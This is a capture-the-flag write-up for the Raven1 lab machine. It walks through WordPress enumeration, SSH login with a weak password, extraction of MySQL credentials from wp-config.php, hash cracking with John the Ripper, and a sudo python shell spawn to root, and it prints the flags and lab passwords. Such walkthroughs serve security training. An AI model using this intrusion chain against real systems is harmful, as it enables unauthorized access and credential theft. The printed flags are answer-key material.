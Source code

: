 # Raven1 CTF Pen-Test

**If you're attempting this CTF, I would urge you to _TRY HARDER_ before proceeding as, obviously, there are spoilers below!**

The following vulnerabilities were identified:

1.	Weak password requirements 
  a.	CWE-521 https://cwe.mitre.org/data/definitions/521.html 
  b.	CWE-522 https://cwe.mitre.org/data/definitions/522.html 
  c.	Severity: Critical 

2.	Wordpress – username enumaration
  a.	CVE-2009-2335 https://cve.mitre.org/cgi-bin/cvename.cgi?name=2009-2335 
  b.	Severity: Medium

3.	Wordpress – wp-config.php & sensitive information exposure - externally accessible
  a.	CWE-538 https://cwe.mitre.org/data/definitions/538.html 
  b.	Severity: High
 ___________________________________________________
 
 ## Exploitation
 
Nmap identifies Apache Http and by browsing the target IP we can identify that wordpress is being used.
 
We can then enumerate wordpress by:
```
Wpscan --url http://192.168.1.110/wordpress/ --enumerate
```

This provides clues as to which directories to look through.
By using inspect element, on each page we are able to locate **Flag1**

●	**flag1.txt: b9bbcb33e11b80be759c4e844862482d**

____________________________________________


We then proceed to explore further based on the information gathered thus far.
Both Michael and Steven have been identified as users. 
A quick integrity check of their passwords reveals that Michael is using his name as his password!
This allows us to SSH into Michael's account and search for flags, and sure enough, **Flag2** is found.

```
ssh micahel@192.168.1.110
```
Password: michael

```
find / -type f -iname flag*.*
```

●	**flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c**

____________________________________

While still logged in as Michael, we navigate to the wp-config.php file.
The file is available and accessible.
Simply opening the file in a text editor reveals the username and password of the MySQL database.
MySQL username: root
MySQL password: R@v3nSecurity

Within the MySQL database we then navigate the various tables and locate **Flag3**

```
Mysql -r root -p
use wordpress;
show tables;
select * from wp_posts;
```
●	**Flag3.txt: afc01ab56b50591e7dccf93122770cd2**

______________________________________


Still within the MySQL database, we can find the password hashes of the users and crack them to gain access to Steven's account.

```
Mysql -r root -p
user wordpress;
show tables;
select * from wp_users;
```

Copy/paste the hashes into wp_password_hashes.txt and use John The Ripper to crack it.

```
John --wordlist=usr/share/wordlists/rockyou.txt wp_password_hashes.txt
```

Steven’s password: pink84

We can now log into Steven's account, spawn a shell, and find **Flag4**
```
Ssh steven@192.168.1.110
Sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
Sudo find / -type f -iname flag*
```

●	**Flag4.txt: 715dea6c055b9fe3337544932f2941ce**

